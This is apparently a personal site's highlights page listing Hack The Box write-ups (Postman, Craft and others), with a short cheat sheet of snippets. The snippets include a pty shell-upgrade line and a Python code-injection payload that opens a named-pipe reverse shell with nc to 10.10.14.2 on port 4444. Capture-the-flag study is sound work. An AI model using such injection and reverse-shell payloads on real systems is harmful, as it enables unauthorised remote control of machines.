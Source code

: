 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
---
```


# Writeups
[Postman](post/htb/postman)
[Craft](post/htb/craft)
[Sneaky - Coming Soon](post/htb/sneaky)
[Traverxec - Coming Soon](post/htb/traverxec)

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```python
__import__("os"); os.system("pwd")
```

**python code injection w/import and backpiping**

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

![test image](/img/craft/developer.png)